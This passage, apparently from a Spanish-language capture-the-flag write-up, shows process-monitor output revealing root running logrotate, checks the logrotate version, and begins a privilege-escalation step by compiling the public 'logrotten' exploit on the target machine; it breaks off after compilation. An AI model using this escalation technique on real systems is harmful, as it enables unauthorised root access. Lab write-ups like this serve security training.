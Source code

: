 ```bash
2022/01/24 04:29:40 CMD: UID=0    PID=1160   | /usr/sbin/apache2 -k start 
2022/01/24 04:29:40 CMD: UID=0    PID=1150   | /usr/sbin/sshd -D 
2022/01/24 04:29:40 CMD: UID=0    PID=1126   | /sbin/agetty -o -p -- \u --noclear tty1 linux 
2022/01/24 04:29:40 CMD: UID=0    PID=1105   | /usr/lib/snapd/snapd 
2022/01/24 04:29:40 CMD: UID=0    PID=1104   | /usr/sbin/irqbalance --foreground 
2022/01/24 04:29:40 CMD: UID=0    PID=1102   | /usr/lib/accountsservice/accounts-daemon 
2022/01/24 04:29:40 CMD: UID=0    PID=1101   | /usr/bin/lxcfs /var/lib/lxcfs/ 
2022/01/24 04:29:40 CMD: UID=102  PID=1100   | /usr/sbin/rsyslogd -n 
2022/01/24 04:29:40 CMD: UID=0    PID=11     | 
2022/01/24 04:29:40 CMD: UID=0    PID=1099   | /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers 
2022/01/24 04:29:40 CMD: UID=0    PID=1098   | /usr/sbin/atd -f 
2022/01/24 04:29:40 CMD: UID=0    PID=1097   | /usr/bin/VGAuthService 
2022/01/24 04:29:40 CMD: UID=0    PID=1096   | /lib/systemd/systemd-logind 
2022/01/24 04:29:40 CMD: UID=0    PID=1086   | /bin/sh /root/reset.sh 
2022/01/24 04:29:40 CMD: UID=0    PID=1084   | /bin/sh -c /root/reset.sh 
2022/01/24 04:29:40 CMD: UID=0    PID=1070   | /usr/sbin/CRON -f 
2022/01/24 04:29:40 CMD: UID=103  PID=1069   | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only 
2022/01/24 04:29:40 CMD: UID=0    PID=1065   | /usr/sbin/cron -f 
2022/01/24 04:29:40 CMD: UID=0    PID=10     | 
2022/01/24 04:29:40 CMD: UID=0    PID=1      | /sbin/init auto automatic-ubiquity noprompt 
2022/01/24 04:29:44 CMD: UID=0    PID=4167   | /usr/sbin/logrotate -f /root/log.cfg 
2022/01/24 04:29:44 CMD: UID=0    PID=4166   | /bin/sh /root/log.sh 
2022/01/24 04:29:44 CMD: UID=0    PID=4168   | sleep 5 
2022/01/24 04:29:49 CMD: UID=0    PID=4169   | /bin/sh /root/log.sh 
2022/01/24 04:29:49 CMD: UID=0    PID=4171   | /usr/sbin/logrotate -f /root/log.cfg 
2022/01/24 04:29:49 CMD: UID=0    PID=4172   | sleep 5 
2022/01/24 04:29:50 CMD: UID=0    PID=4173   | 
^CExiting program... (interrupt)
reader@book:/dev/shm$
```

Vemos que el usuario **root** está ejecutando `/usr/sbin/logrotate -f /root/log.cfg`, por lo que vamos a ver la versión de `logrotate`:

```bash
reader@book:/dev/shm$ logrotate --version
logrotate 3.11.0
reader@book:/dev/shm$ 
```

Vamos a buscar posibles exploits que nos ayuden a escalar privilegios abusando de dicho binario y encontramos [logrotten](https://github.com/whotwagner/logrotten), en donde nos explican que pasos debemos de seguir; así que vamos a hacerlo.

Primero nos vamos a crear el archivo  `logrotten.c` en la máquina víctima y vamos a compilarlo.

```bash
reader@book:/dev/shm$ nano logrotten.c
reader@book:/dev/shm$ gcc logrotten.c -o logrotten
reader@book:/dev/shm$ ll
total 1064
drwxrwxrwt  2 root   root       100 Jan 24 04:42 ./
drwxr-xr-x 18 root   root      3960 Jan 24 04:16 ../
-rwxrwxr-x  1 reader reader   17984 Jan 24 04:42 logrotten*
-rw-rw-r--  1 reader reader    7343 Jan 24 04:42 logrotten.c
-rwxrwxr-x  1 reader reader 1059492 Jan 24 00:53 pspy*
reader@book:/dev/shm$
```
